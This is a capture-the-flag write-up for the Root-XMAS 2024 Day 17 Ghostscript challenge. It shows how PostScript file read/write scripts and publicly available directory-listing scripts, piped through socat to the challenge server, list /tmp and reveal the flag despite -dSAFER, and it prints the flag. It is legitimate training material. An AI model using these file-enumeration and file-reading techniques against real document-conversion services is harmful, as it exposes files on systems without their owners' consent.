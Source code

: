 ```yaml
---
title: Root-XMAS 2024 Day 17 - Ghost in the shell
feed: show
permalink: /RootXMAS_2024_17
date: 17-12-2024
summary: complex stand-alone
---
```

### summary

Lots of vulnerabilities are available on Ghostscript, but sometimes features are enough: you can list files in a folder with a Ghostscript file!
### recon

We have our own instance of a server which we can send a Postscript/Ghostscript file, and he will return a PDF file (base64 encoded). We need to get the content of a file which we don't have the name in `/tmp`

sending the example file given in the challenge readme, we are returned a PDF, but also the version of Ghostscript!

```bash
cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:31489 
GPL Ghostscript 9.53.3 (2020-10-01)
Copyright (C) 2020 Artifex Software,
```

Damn, a 4 years old binary, let's check... wow, there are [lots of](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/) [very different](https://www.vicarius.io/vsociety/posts/cve-2023-36664-command-injection-with-ghostscript-poc-exploit) [RCE vunerabilities](https://offsec.almond.consulting/ghostscript-cve-2023-28879.html)!

And you know what? after testing them all, recompiling the correct version of Ghostscript on my machine to craft a special payload... none of them worked. And the solution was much simpler.

Of course, I tried reading and writing files with a simple script like this, found on this ["File io" question on Stackoverflow](https://stackoverflow.com/a/25702652)

```ghostscript
/outfile1 (/tmp/output1.txt) (w) file def
outfile1 (hello world) writestring
outfile1 closefile 

/inputfile (/tmp/output1.txt) (r) file def
inputfile 100 string readstring
show inputfile
pop
inputfile closefile

showpage
```

It happens that this script does not really work, as it doesn't produce a valid PDF, but still we have the content of our file in the error output:

```bash
cat test_write_read.ps | socat - TCP:dyn-01.xmas.root-me.org:31489
	...
	Error: /typecheck in --show--
	Operand stack:
	   (hello world\n)   false
   ...
```

we also know that the `-dSAFER` option of Ghostscript is used, as we have an `/invalidfileaccess` error if we try to access any file outside of `/tmp`. Thankfully the flag is in this directory! 

Still, we have no way to list files in a directory... I searched online and found few documentation, and ChatGPT ensured me there was no way to do it... dirty liar!
### solution

I skimmed a bit too much one specific article of the [redteam-pentesting.de blog : "Better dSAFER than Sorry"](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

At first they talk about the latest CVEs I tried, but after they provide examples of script that allow... to list files in a directory!

Let's just go on their  [RedTeamPentesting/postscript_blog_examples repo](https://github.com/RedTeamPentesting/postscript_blog_examples) to download them.

```bash
cat list_files.ps | socat - TCP:dyn-01.xmas.root-me.org:31489 |\
tail -n 1 | base64 -d > res.pdf && evince res.pdf

	/tmp/gs_JHGIAL
	...
	/tmp/flag-9fb215456edead...9d.txt
```

We just change the end of the `print_file.ps` to add the path of our flag file, and we're done!

```bash
cat print_file.ps | socat - TCP:dyn-01.xmas.root-me.org:31489 |\
tail -n 1 | base64 -d > res.pdf && evince res.pdf

	RM{Gh0Scr1pt_c4n_d0_THIS??}
```





